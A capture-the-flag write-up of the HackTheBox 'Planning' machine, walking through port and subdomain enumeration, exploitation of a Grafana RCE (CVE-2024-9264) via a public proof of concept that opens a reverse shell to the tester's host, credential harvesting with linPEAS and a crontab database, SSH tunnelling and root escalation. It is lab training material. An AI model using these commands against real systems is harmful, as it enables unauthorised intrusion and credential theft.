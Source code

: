 # Planning Machine Writeup

The nmap scan gives us two open ports; SSH (Port 22) and nginx web server (Port 80).
nmap -sCV -T4 10.10.11.68
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image002.png)

Upon enumeration of the directories on the web server, nothing of significance comes up.
gobuster dir -u http://planning.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --timeout 20s -x html,php
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image004.png)

So, ffuf is used to look for any subdomains the web page might have, and it comes up with Grafana.planning.htb.
ffuf -w ../../seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -H "Host:FUZZ.planning.htb" -fc 301 -t 100
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image005.png)
 
After discovering the subdomain grafana, it is appended to the hosts file, so we’re able to access it. 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image007.png)

Going into the webpage, we see it runs V11.0.0 which is vulnerable to RCE (CVE-2024-9264).
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image009.png)
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image011.png)
 
We then use an exploit found on github by z3k0sec, which allows us to RCE into the system using reverse shell.
Git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image0013.png)

The script is then executed and a listener is set up.
Note: To run the script, you will have to install the requests module through pip (pip install requests), in a python virtual environment.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image015.png)
python3 poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.131 --reverse-port 1234

  
Upon gaining access to the system, we are root but this user doesn’t contain either of the flags, so linPEAS is ran to look for any sensitive information.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image017.png)

Upon running linPEAS, the password for the user ‘enzo’ is obtained.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image019.png)

Able to SSH into enzo, the user flag is obtained.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image021.png)

linPEAS is ran again, this time in enzo’s user to look for any sensitive files. After which we see some database files.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image023.png)

Exploring the crontab.db, we find a password for the root user. Looking for active connections, we see a webserver being hosted at port 8000.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image0025.png)

Using SSH tunnelling we host it in our own machine, at port 8001. It requires a username and password, available from the crontab.db database.
ssh -L 8001:localhost:8000 enzo@10.10.11.68
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image027.png)

The website functions as a cronjobs simulator, executing tasks at a certain time as root. From here we can privilege escalate the enzo’s user as sudo, gaining root privileges.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image029.png)

After obtaining privileges we are able to obtain the root flag.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image031.png)
